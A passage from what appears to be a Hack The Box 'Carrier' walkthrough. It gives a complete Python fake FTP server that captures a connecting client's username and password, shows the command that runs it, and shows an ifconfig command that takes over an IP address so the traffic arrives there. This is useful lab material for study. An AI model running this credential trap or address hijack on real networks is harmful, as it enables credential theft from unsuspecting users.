<a class="image-popup">
![0c7c2d2e.png](/assets/images/posts/carrier-htb-walkthrough/0c7c2d2e.png)
</a>

The next step involves setting a service listening at `21/tcp`. I wrote a simple FTP server that does nothing but to extract the username and password; and to print it to `stdout`.

<div class="filename"><span>ftp.py</span></div>

```python
import socket

host = ''
port = 21

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
  s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
  s.bind((host,port))
  s.listen(1)
  conn, addr = s.accept()
  with conn:
    while True:
      conn.send(b"220 Welcome to FTP\r\n")
      print(conn.recv(1024).decode('utf_8')[:-2])
      conn.send(b"331 User name okay need password\r\n")
      print(conn.recv(1024).decode('utf-8')[:-2])
      break
    conn.close()
  s.shutdown(socket.SHUT_RDWR)
  s.close()
```

Run it like so.

```
# python3 ftp.py > ftp.txt &
```

The last step is to configure the network interface `eth2` to 10.120.15.10/24 and we are done.

```
# ifconfig eth2 10.120.15.10/24
```

Almost immediately, the credentials are printed out to `/tmp/ftp.txt`.

<a class="image-popup">
![1ac3dd57.png](/assets/images/posts/carrier-htb-walkthrough/1ac3dd57.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/155
[2]: https://www.hackthebox.eu/home/users/profile/9267
[3]: https://www.hackthebox.eu/